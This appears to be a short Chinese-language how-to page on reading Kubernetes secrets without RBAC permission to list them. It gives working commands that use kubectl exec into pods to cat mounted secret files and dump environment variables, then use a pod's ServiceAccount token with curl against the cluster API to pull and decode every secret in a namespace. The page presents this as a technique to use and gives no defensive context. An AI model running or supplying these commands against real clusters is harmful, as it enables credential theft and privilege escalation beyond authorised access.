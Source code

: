 ## Overview

这篇文档主要是讲如何在用户没有查看secret的权限下查看secret的内容



step1 查看自己的权限

```
kubectl get role,rolebinding,clusterrole,clusterrolebinding -A
```

然后提示我们没有权限看到这些内容

```
kubectl auth can-i list secrets
```

然后我们发现我们有查看pod的权限



step2 

我们尝试看看我们能看到的pod里面是否有挂载或者使用这些secret

```
kubectl  get pod -n data-xx -o yaml | grep -i secret
```

Bingo~ 有两个pod都挂载了两个不同的secret

然后我就通过以下方法就可以看到secret的内容

```
kubectl -n data-xx exec pod1-xx-xx -- cat /etc/secret-volume/password
kubectl -n data-xx exec podx-xxx-xxx -- env
```

但是这个时候我们还需要知道是否在这个namespace下有其他secret

step3 

我们去检查哪个pod是有使用ServiceAccount的，因为ServiceAccount 是有权限access一些secret的

我们尝试使用kubectl exec 进入有挂载serviecAccount的pod

```
curl https://kubernetes.default/api/v1/namespaces/data-xx/secrets -H "Authorization: Bearer $(cat /run/secrets/kubernetes.io/serviceaccount/token)" -k
```



然后我们只需要将拿到的值decode就是我们需要的secrets拉